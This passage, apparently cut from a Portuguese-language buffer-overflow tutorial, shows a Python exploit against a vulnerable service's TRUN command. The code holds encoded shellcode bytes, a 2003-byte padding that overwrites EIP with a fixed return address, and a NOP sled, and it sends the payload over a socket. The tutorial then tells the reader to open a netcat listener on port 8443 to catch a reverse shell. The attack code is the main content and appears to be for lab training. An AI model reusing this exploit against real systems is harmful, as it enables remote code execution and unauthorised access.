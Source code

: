 ```python
shellcode += b"\xfb\x35\xcc\x83\x1f\xcb\x01\xb8\x24\x40\xa4"
shellcode += b"\x6e\xad\x12\x83\xaa\xf5\xc1\xaa\xeb\x53\xa7"
shellcode += b"\xd3\xeb\x3b\x18\x76\x60\xd1\x4d\x0b\x2b\xbe"
shellcode += b"\xa2\x26\xd3\x3e\xad\x31\xa0\x0c\x72\xea\x2e"
shellcode += b"\x3d\xfb\x34\xa9\x42\xd6\x81\x25\xbd\xd9\xf1"
shellcode += b"\x6c\x7a\x8d\xa1\x06\xab\xae\x29\xd6\x54\x7b"
shellcode += b"\xfd\x86\xfa\xd4\xbe\x76\xbb\x84\x56\x9c\x34"
shellcode += b"\xfa\x47\x9f\x9e\x93\xe2\x5a\x49\x5c\x5a\x65"
shellcode += b"\x85\x34\x99\x65\xb5\x3f\x14\x83\xdf\xaf\x71"
shellcode += b"\x1c\x48\x49\xd8\xd6\xe9\x96\xf6\x93\x2a\x1c"
shellcode += b"\xf5\x64\xe4\xd5\x70\x76\x91\x15\xcf\x24\x34"
shellcode += b"\x29\xe5\x40\xda\xb8\x62\x90\x95\xa0\x3c\xc7"
shellcode += b"\xf2\x17\x35\x8d\xee\x0e\xef\xb3\xf2\xd7\xc8"
shellcode += b"\x77\x29\x24\xd6\x76\xbc\x10\xfc\x68\x78\x98"
shellcode += b"\xb8\xdc\xd4\xcf\x16\x8a\x92\xb9\xd8\x64\x4d"
shellcode += b"\x15\xb3\xe0\x08\x55\x04\x76\x15\xb0\xf2\x96"
shellcode += b"\xa4\x6d\x43\xa9\x09\xfa\x43\xd2\x77\x9a\xac"
shellcode += b"\x09\x3c\xaa\xe6\x13\x15\x23\xaf\xc6\x27\x2e"
shellcode += b"\x50\x3d\x6b\x57\xd3\xb7\x14\xac\xcb\xb2\x11"
shellcode += b"\xe8\x4b\x2f\x68\x61\x3e\x4f\xdf\x82\x6b"


# payload a ser enviado
payload = b"TRUN /../" # funcao inicial
payload += b"A"*2003 # preenchimento do buffer
payload += b"\x03\x12\x50\x62" # sobrescreve EIP
payload += nop # sobrescreve ESP com os NOPs
payload += shellcode # envia nosso shellcode apos os NOPs

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # cria o socket
s.connect((ip,porta)) # conecta no alvo

s.send(payload + b"\r\n") # envia o payload

s.close() # fecha conexao
```

## OBTENDO ACESSO REMOTO

Com o exploit pronto, precisamos deixar um netcat ouvindo em nossa máquina atacante na mesma porta utilizada para gerar o shellcode, no meu caso a 8443.

![Immunity.](/std/winbof/winbof-15.png)
